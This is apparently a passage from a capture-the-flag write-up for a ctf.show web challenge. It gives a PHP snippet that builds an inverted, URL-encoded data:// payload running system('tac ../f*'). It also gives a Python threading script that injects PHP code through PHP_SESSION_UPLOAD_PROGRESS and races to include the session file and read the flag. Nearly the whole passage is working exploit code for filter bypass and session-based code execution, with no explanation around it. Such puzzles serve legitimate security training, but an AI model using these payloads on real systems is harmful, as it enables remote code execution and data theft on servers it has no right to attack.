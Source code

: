 ```
<?php
$a = "data://text/plain,<?php system('tac ../f*');?>";
echo "~(";
for ($i = 0; $i < strlen($a); $i++) {
    echo "%".bin2hex(~$a[$i]);
}
echo ")";

```

脚本实现如下

```
import requests
import threading

rs = requests.session()
sess = 'hahaha'
url = "https://7129a574-6701-4301-b099-512ab7f25342.challenge.ctf.show/"
data = {
    'PHP_SESSION_UPLOAD_PROGRESS': '<?php system("tac ../f*");?>'
}
file = {
    'file': sess
}
cookie = {
    'PHPSESSID': sess
}


def write():
    while True:
        rs.post(url, data=data, files=file, cookies=cookie)


def read():
    while True:
        r = rs.get(url + "/upload/index.php")
        if 'flag' in r.text or 'ctfshow' in r.text:
            print(r.text)
            exit()


threads = [threading.Thread(target=write),
           threading.Thread(target=read)]
for t in threads:
    t.start()


```

